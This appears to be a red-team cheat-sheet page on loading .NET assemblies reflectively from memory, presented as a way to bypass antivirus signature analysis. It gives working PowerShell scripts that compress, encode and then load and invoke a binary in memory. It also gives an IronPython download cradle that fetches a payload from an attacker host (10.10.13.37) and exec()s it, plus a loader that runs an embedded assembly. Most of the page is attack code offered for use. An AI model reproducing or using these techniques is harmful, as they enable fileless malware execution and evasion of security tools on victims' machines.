# .NET Reflective Assembly

- [https://blog.king-sabri.net/red-team/executing-c-assembly-in-memory-using-assembly.load](https://blog.king-sabri.net/red-team/executing-c-assembly-in-memory-using-assembly.load)
- [https://pscustomobject.github.io/powershell/howto/PowerShell-Add-Assembly/](https://pscustomobject.github.io/powershell/howto/PowerShell-Add-Assembly/)
- [https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack)
- [https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell](https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell)
- [https://github.com/cfalta/PowerShellArmoury/blob/master/ConvertTo-Powershell.ps1](https://github.com/cfalta/PowerShellArmoury/blob/master/ConvertTo-Powershell.ps1)
- [https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/convert_c%23_to_ps1.ps1](https://github.com/LuemmelSec/Pentest-Tools-Collection/blob/main/tools/convert_c%23_to_ps1.ps1)
- [https://icyguider.github.io/2022/01/03/Convert-CSharp-Tools-To-PowerShell.html](https://icyguider.github.io/2022/01/03/Convert-CSharp-Tools-To-PowerShell.html)
- [https://cyberstoph.org/posts/2020/09/convertto-powershell-wrapping-applications-with-ps/](https://cyberstoph.org/posts/2020/09/convertto-powershell-wrapping-applications-with-ps/)

A way to bypass AV signature analysis: you can gzip-compress and base64-encode a .NET assembly to load it reflectively via PowerShell right from memory (when compiling the binary, make `Program` class and its `Main` method **public**):

{% code title="CompressEncodeAssembly.ps1" %}
```powershell
$bytes = [System.IO.File]::ReadAllBytes("$(pwd)\binary.exe")
[System.IO.MemoryStream] $outStream = New-Object System.IO.MemoryStream
$gzipStream = New-Object System.IO.Compression.GzipStream($outStream, [System.IO.Compression.CompressionMode]::Compress)
$gzipStream.Write($bytes, 0, $bytes.Length)
$gzipStream.Close()
$outStream.Close()
[byte[]] $outBytes = $outStream.ToArray()
$b64Zipped = [System.Convert]::ToBase64String($outBytes)
$b64Zipped | Out-File -NoNewLine -Encoding ASCII .\b64.txt
notepad.exe .\b64.txt
```
{% endcode %}

This [blog post](https://www.praetorian.com/blog/running-a-net-assembly-in-memory-with-meterpreter) covers the topic in depth.

An example how the binary can be actually decoded, decompressed and run from memory:

{% code title="Invoke-S0m3B1n4ry.ps1" %}
```powershell
function Invoke-S0m3B1n4ry
{
	#[CmdletBinding()]
	#Param([String]$Command = " ")

	$a = New-Object System.IO.MemoryStream(, [System.Convert]::FromBase64String("..."))
	$b = New-Object System.IO.Compression.GZipStream($a, [System.IO.Compression.CompressionMode]::Decompress)
	$c = New-Object System.IO.MemoryStream;
	$b.CopyTo($c)
	[byte[]]$d = $c.ToArray()
	$e = [System.Reflection.Assembly]::Load($d)
	$f = [System.Console]::Out
	$g = New-Object System.IO.StringWriter
	[System.Console]::SetOut($g)

	$h = [Reflection.BindingFlags]"Public,NonPublic,Static"
	$i = $e.GetType("S0m3B1n4ry.Program", $h)
	$j = $i.GetMethod("Main", $h)
	$j.Invoke($null, (, [string[]]$args))
	#$i = [S0m3B1n4ry.Program]::Main($Command.Split())

	[System.Console]::SetOut($f)
	$k = $g.ToString()
	$k
}
```
{% endcode %}




## IronPython Loader

- [https://www.huntress.com/blog/snakes-on-a-domain-an-analysis-of-a-python-malware-loader](https://www.huntress.com/blog/snakes-on-a-domain-an-analysis-of-a-python-malware-loader)
- [https://github.com/IronLanguages/ironpython3/releases](https://github.com/IronLanguages/ironpython3/releases)
- [https://pythonnet.github.io/](https://pythonnet.github.io/)
- [https://github.com/BC-SECURITY/Empire/blob/master/empire/server/stagers/CSharpPy.yaml](https://github.com/BC-SECURITY/Empire/blob/master/empire/server/stagers/CSharpPy.yaml)

Cradle:

```python
>>> import urllib.request
>>> request = urllib.request.Request('http://10.10.13.37/payload.py')
>>> result = urllib.request.urlopen(request)
>>> payload = result.read()
>>> exec(payload)
```

Payload:

{% code title="loader.py" %}
```python
import clr
import zlib
import base64

clr.AddReference('System')
from System import *
from System.Reflection import *

b64 = base64.b64encode(zlib.decompress(base64.b64decode(b'<LOADER_BYTES_B64>'))).decode()
raw = Convert.FromBase64String(b64)

assembly = Assembly.Load(raw)
type = assembly.GetType('Loader.Program')
type.GetMethod('Main').Invoke(Activator.CreateInstance(type), None)
```
{% endcode %}
